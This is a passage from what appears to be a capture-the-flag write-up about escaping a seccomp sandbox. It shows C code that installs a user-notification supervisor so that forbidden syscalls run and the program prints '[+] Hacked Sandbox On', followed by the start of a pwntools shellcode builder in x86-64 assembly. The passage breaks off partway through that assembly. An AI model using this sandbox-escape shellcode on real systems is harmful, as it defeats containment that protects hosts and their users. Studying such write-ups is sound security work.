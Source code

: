 ```c
            notif_resp->error = 0;
            notif_resp->flags = SECCOMP_USER_NOTIF_FLAG_CONTINUE;
            notif_resp->val = 0;
            ioctl(listening_fd, SECCOMP_IOCTL_NOTIF_SEND, response_buffer);
        }
    } else {
        //parent - target. syscalls are delegated to the supervisor
        close(listening_fd);
        syscall(__NR_write, STDOUT_FILENO, "[+] Hacked Sandbox On\n", 22);
    }
}
```

The source code for this version can be found in [myebpf-thin.c](myebpf-thin.c). If we have written our exploit correctly, we expect that the target process will print the message `[+] Hacked Sandbox On` when we run the file [myebpf-thin.c](myebpf-thin.c). The reason why we expect this is is because both `close` and `write` are forbidden syscalls by the original seccomp filter. Our newly installed seccomp filter should allow their execution.

### Shellcode

To produce the shellcode for the above monstrosity, we simple compile the C program, load it in ghidra, copy the assembly, and make changes wherever appropriate:

```python
def craft_shellcode():
    shellcode = asm('''
    ENDBR64
    JMP start

    inline_memset:
    xor rax, rax

    inline_memset_loop:
    cmp rax, rdx
    jz inline_memset_exit
    mov byte ptr [rdi+rax], 0
    inc rax
    jmp inline_memset_loop

    inline_memset_exit:
    ret

    start:
    PUSH       RBP
    MOV        RBP,RSP
    PUSH       R15
    PUSH       R14
    PUSH       R13
    PUSH       R12
    SUB        RSP,0xe0
    
    // ebpf filter
    MOV        qword ptr [RBP + -0x28],RAX
    XOR        EAX,EAX
    MOV        word ptr [RBP + -0x80],0x20
    MOV        byte ptr [RBP + -0x7e],0x0
    MOV        byte ptr [RBP + -0x7d],0x0
    MOV        dword ptr [RBP + -0x7c],0x0
    MOV        word ptr [RBP + -0x78],0x15
    MOV        byte ptr [RBP + -0x76],0x0
    MOV        byte ptr [RBP + -0x75],0x1
    MOV        dword ptr [RBP + -0x74],0x13d
    MOV        word ptr [RBP + -0x70],0x6
```